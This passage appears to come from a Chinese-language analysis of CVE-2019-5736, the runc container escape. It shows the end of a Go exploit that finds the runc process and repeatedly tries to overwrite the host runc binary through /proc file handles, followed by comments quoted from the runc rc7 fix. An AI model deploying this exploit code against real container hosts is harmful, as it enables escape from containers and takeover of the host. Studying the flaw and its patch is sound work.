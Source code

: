 ```
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// 循环去读这个/proc/pid/exe，先拿到一个该文件的fd，该fd就指向了runc程序的位置
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// 然后不断的去尝试写这个指向的文件，一开始由于runc会先占用着，写不进去，直到runc的占用解除了，就立即
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}
```

### 更新修复

为了应对该问题，runc更新了rc7的版本，该版本中，对权限问题进行了限制，用于解决这个问题

来看一下新增的修复

```
runc-1.0.0-rc7\libcontainer\nsenter\nsexec.c
	/*
	 * We need to re-exec if we are not in a cloned binary. This is necessary
	 * to ensure that containers won't be able to access the host binary
	 * through /proc/self/exe. See CVE-2019-5736.
	 */
runc-1.0.0-rc7\libcontainer\nsenter\cloned_binary.c
	/*
	 * Before we resort to copying, let's try creating an ro-binfd in one shot
	 * by getting a handle for a read-only bind-mount of the execfd.
	 */
```
